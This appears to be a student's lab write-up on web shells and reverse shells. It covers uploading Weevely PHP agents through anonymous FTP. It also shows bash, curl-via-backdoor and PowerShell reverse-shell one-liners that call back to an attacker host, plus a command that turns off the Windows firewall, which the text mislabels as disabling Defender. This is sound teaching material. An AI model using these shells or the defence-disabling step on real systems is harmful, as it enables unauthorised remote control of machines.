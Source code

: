 # Reverse Shells

### Lab 8.1 Weevley

Weevley is a built in tool included within Kali. Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime. Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

The Usage is pretty simple. The commands below show the generation of a php agent that will then get upoaded to a webserver.
```
weevely generate <password> <path>
weevely <URL> <password> [cmd]
```

A password is needed to encrypt the agent

The upload process to our FTP is simple. Triggering an FTP session by using `ftp anonymous@10.0.5.25` then moving directories to `upload`. From here we can upload the file directly to the right directory. That command is `put`

`put pippin_agent.php `

With a succsessful upload we can now utilize the agent.

We can run the agent by using `weevely http://10.0.5.25/upload/pippin_agent.php <insert password>`

From here we now have a webshell into 10.0.5.25 and can run commands. 

#### Refelction

The diffrence in stealth is made clear when using weevely compared to a curl using simple_backdoor. The Wireshark stream showed a comlpete detail and display of the leaked etc/passwd/ output when using simple_backdoor.php. Using Weevely there was obfuscation in the TCP stream that Wireshark couldnt blantanly see. 

### Activity 8.2 Reverse Shells

In this lab we are tasked with creating and implementing a reverseshell on a new workstation. This worstaion was given to us from the Professor. Our Cyber.local credentials are to be used to ssh into this new workstation. 

Reverse Shell Checklist 
* DHCP address from the attacking computer
* Start an nc listner on a specified port; e.g. 4449/tcp
* Use `/bin/bash -i >& /dev/tcp/ATTACKINGIP/PORT 0>&1`

This will start the reverse shell session. On our `nc` listner there should be a connect message and you'll have acess to the remote system. 

Trying this on pippen gets a little more involved. There are multiple ways to achieve a reverse shell on pippen. The method I used was utilizing simple-backdoor.php and a curl command. 

I logged into the FTP server to make sure simple-backdoor.php was uploaded. After confirming, I prepare my curl command using the foramt from previous labs.

`curl "http://10.0.5.25/upload/simple-backdoor.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.0.17.156/4449+0>%261'"`

Now run the `nc` listner on port 4449 and on another terminal run the curl command. This will use `simple-backdoor.php` to envoke the `/bin/bash` command and connect the shells.


This process on our Windows VM has more security concerns. The main roadblock on Windows is actually Windows Defender. The commadn were given to enact the shell 

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKERIP',ATTACKERPORT); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){;$data= (New-Object -TypeName System.Text.ASCIIENcoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
It will not run becasue of Windows Defender to temporarily disable Windows defedner we need to run a command in powershell. Make sure to envoke administartive power.

`Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False`

Now run the powershell command and envoke a shell on the `nc` lister on our Kali box

#### Reflection
The reverse webshell is quite usefull when you can upload files to a service. Weevely also makes agent creation easy. 
